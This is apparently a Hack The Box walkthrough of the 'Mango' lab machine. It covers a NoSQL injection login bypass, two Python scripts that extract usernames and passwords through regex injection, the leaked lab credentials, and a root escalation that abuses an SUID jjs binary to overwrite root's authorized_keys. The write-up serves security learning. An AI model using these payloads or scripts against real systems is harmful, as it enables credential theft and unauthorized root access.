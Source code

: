 ```yaml
---
layout: single
title:  "HTB Writeup - Mango"
excerpt: "Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root."
header:
  teaser: "/assets/images/htb/mango/logo.png"
date: "2020-04-19"
classes: wide
categories:
- hackthebox 
- machines
tags:
- nosql 
- injection
- jjs 
- gtfobins
---
```


![](/assets/images/htb/mango/logo.png)  

Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root.

## Recon

A quick masscan + nmap scan gives us the following info:  

![](/assets/images/htb/mango/scan.png)  

There are 3 open ports, ```22, 80 and 443```. Credentials are needed for SSH access so let's proceed checking up ```port 80``` and ```port 443```.

## Webserver

Hitting up port 80 gives us a ```403 Forbidden``` response.

![](/assets/images/htb/mango/port_80.png)  

Adding ```mango.htb``` to ```/etc/hosts``` gives us the same response.

![](/assets/images/htb/mango/port_80_etchosts.png)  

Enumerating ```port 80```'s directories also gave nothing.

Skipping to ```port 443```, accessing the port leads us to this webpage.  

![](/assets/images/htb/mango/port_443.png)  

Enumerating ```port 443```'s directories and pages only led to this page.

![](/assets/images/htb/mango/port_443_analytics.png)  

It seems that ```https://mango.htb``` or ```https://10.10.10.162``` leads to nothing.

Going back to our nmap scan gives us a subdomain worth investigating.

```
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

Adding ```staging-order.mango.htb``` to ```/etc/hosts``` gives us a new webpage.

![](/assets/images/htb/mango/port_443_staging.png)  

It leads us to ```Sweet & Juicy Mango``` login page.

## NoSQL Injection

After manually testing a lot of SQLi payloads, it seems that the login page is not vulnerable to SQLi. After wasting a lot of time in the rabbit hole, I realized that there might be a reason why this machine is named ```Mango```.  

```Mango``` -> ```Mongo``` -> ```MongoDB``` -> ```NoSQL injection```  

After trying different NoSQL payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), I got an ```HTTP/1.1 302 Found``` response with this payload.

```
username[$ne]=admin&password[$ne]=admin&login=login
```

![](/assets/images/htb/mango/burp_injection.png)  

We can extract information using this payload template:  

```
username[$regex]=^(insert character guess here)&password[$ne]=test&login=login
```

The payload means that the server will return a ```302 response``` if the user value starts with the right character/s.

Automating this attack with a script makes it easier to leak the information we need.

```
import requests
import string

url = 'http://staging-order.mango.htb/'

user = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$regex]': '^{}'.format(user + c),
        'password[$ne]': 'abc',
        'login': 'login'
        }

      print('Trying: {}'.format(user + c))
      print('Current user: {}'.format(user))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          # additional check to break the script
          if c == '$':
              print('Leaked user: {}'.format(user))
              exit()
          user += c
          print(user)
```

Running this script gives us two users, ```admin``` and ```mango```.   

![](/assets/images/htb/mango/leak_admin.png)  

Note: **Edited the script to skip admin user**

![](/assets/images/htb/mango/leak_mango.png)  

After extracting the users, we need to edit the payload to extract passwords.

This will be the new payload template for password extraction.

```
username=admin&password[$regex]=^(insert password guess here)&login=login
```

This script can be used to extract the password for each user:

```
import requests
import string

url = 'http://staging-order.mango.htb/'

password = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$eq]': 'mango',
        'password[$regex]': '^{}'.format(password+c),
        'login': 'login'
        }

      print('Trying: {}'.format(password + c))
      print('Current pw: {}'.format(password))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          if c == '$':
              print('Leaked password: {}'.format(password))
              exit()
          password += c
          print(password)
```

User ```admin``` password leak:

![](/assets/images/htb/mango/admin_pw.png)  

User ```mango``` password leak:

![](/assets/images/htb/mango/mango_pw.png)  

Leaked credentials:  

```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

The credentials for mango user worked on SSH login.

![](/assets/images/htb/mango/mango_user.png)  

After checking the files of ```mango```, the file ```user.txt``` does not exist in the home directory. It seems that we still need to check for another user.

## PrivEsc to Admin 

Upon checking the list of users on ```/etc/passwd```, we can see that there is another user named ```admin```.

![](/assets/images/htb/mango/users.png)  

We can try to use the leaked credentials (```admin : t9KcS3>!0B#2```) for this user.

![](/assets/images/htb/mango/su_admin.png)  

Successfully pivoted to ```admin``` user.

## PrivEsc to Root

Executing [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) shows us that there is an SUID binary that can be exploited.  

![](/assets/images/htb/mango/suid.png)  

A quick google search about exploiting ```jjs``` leads us to another [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) page.

![](/assets/images/htb/mango/gtfo_suid.png)  

According to GTFObins, we can execute system commands inside ```jjs``` with a one-liner command:

```
Java.type('java.lang.Runtime').getRuntime().exec('<insert commands here>').waitFor()
```  

Since ```jjs``` is SUID enabled, we can execute commands as ```root```. We can try to write an ```SSH public key``` to ```/root/.ssh/authorized_keys``` and login via SSH using our private key.

Overwriting ```/root/.ssh/authorized_keys``` by downloading our public key using ```wget```.

![](/assets/images/htb/mango/rooted.png)  

Successfully logged in as ```root``` using our private key.

-- 

![ar33zy](https://www.hackthebox.eu/badge/image/26849)


